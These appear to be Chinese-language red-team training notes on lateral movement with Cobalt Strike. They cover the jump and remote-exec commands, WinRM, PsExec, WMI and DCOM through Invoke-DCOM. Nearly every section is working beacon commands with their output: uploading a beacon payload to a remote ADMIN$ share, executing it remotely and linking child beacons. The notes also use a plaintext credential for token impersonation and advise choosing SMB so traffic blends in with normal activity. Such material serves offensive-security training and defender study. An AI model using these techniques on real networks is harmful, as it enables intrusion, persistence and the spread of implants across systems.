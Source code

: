 # Lateral Movement

在Cobalt Strike里，提供了三种方法进行横向移动

## ```jump```命令

用法：```jump [method] [target] [listener]```

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## ```remote-exec```命令

用法：```remote-exec [method] [target] [command]```

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```


## ```powershell```和```execute-assembly```等Cobalt Strike内置的命令


通过列举C盘目录验证是否横向成功
```
ls \\srv-1\c$
```


# PowerShell Remoting

查询靶机架构
```
beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

```winrm```32位横向使用


```winrm64```64位横向使用



推荐使用 SMB 协议横向。SMB 协议在 Windows 环境中广泛使用，因此横向的时候可以和smb本身的流量融合在一起。
```
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```


WinRM返回的是一个高完整性的beacon，可以和远程计算机建立交互式的shell


# PsExec

psexec和psexec64是唯一执行```jump```命令后可以自动执行进程迁移的方法（默认为rundll32.exe），这样做是为了自动从磁盘中删除上传的服务二进制文件。

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25
```


# Windows Management Instrumentation (WMI)

WMI 不是jump命令的一部分，但它是remote-exec命令的一部分

```
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
Started process 536 on srv-1
```

上面命令执行完以后，该进程已经在srv-1运行，需要用```link```命令连接

```
beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```

# The Curious Case of CoInitializeSecurity

CoInitializeSecurity的特殊案例

Beacon对WMI的内部实现使用一个[Beacon Object File](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm)，使用[beacon_inline_execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) Aggressor函数执行。当BOF被执行时，[CoInitializeSecurity](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) COM对象可以被调用，它被用来为当前进程设置安全上下文。根据微软的文档，每个进程只能调用一次。

不幸的后果是，如果你让CoInitializeSecurity在 "用户A "的上下文中被调用，那么未来的BOF可能无法在Beacon进程的生命周期中继承一个不同的安全上下文（"用户B"）。

这方面的一个例子是这样的。

```
beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi srv-2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv-2: 5
```


我们知道```jking```是SRV-2上的本地管理员，但是由于```CoInitializeSecurity```已经被调用（可能是在bfarmer的上下文中），WMI执行失败，显示拒绝访问。

作为一种变通方法，你的WMI执行需要来自不同的进程。这可以通过 ```spawn``` 和 ```spawnas``` 等命令来实现，甚至可以使用```execute-assembly```执行```SharpWMI```工具

```
beacon> remote-exec wmi srv-2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv-2: 5

beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Debug\SharpWMI.exe action=exec computername=srv-2 command="C:\Windows\System32\calc.exe"

[*] Host                           : srv-2
[*] Command                        : C:\Windows\System32\calc.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 1312
```


# DCOM

Beacon 没有通过Distributed Component Object Model (DCOM) 进行交互的内置功能，因此必须使用诸如[Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)之类的外部工具。我们将在后面的模块中看到如何将其集成到jump命令中

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```